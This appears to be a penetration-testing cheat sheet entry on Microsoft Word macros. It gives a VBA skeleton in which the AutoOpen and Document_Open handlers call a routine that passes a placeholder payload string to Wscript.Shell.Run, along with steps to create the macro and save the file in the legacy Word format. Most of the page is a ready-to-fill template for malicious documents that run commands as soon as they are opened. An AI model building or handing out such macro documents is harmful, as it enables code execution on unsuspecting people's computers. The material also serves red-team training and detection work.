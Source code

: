 # Macros

### Microsoft Word Macro Skeleton

View -&gt; Macros -&gt; Macros in Document -&gt; Name -&gt; Create

```text
Sub AutoOpen()
    RevMacro
End Sub

Sub Document_Open()
    RevMacro
End Sub

Sub RevMacro()
    Dim Str As String
    <payload here>
    CreateObject("Wscript.Shell").Run Str
End Sub
```

Functions Purposes:

* AutoOpen\(\) = Open when a new document is opened
* Document\_Open\(\) = Executed when Reopened
* CreateObject\("Wscript.Shell"\).Run Str = Runs the payload
* Save As: Word 97-2003 Document

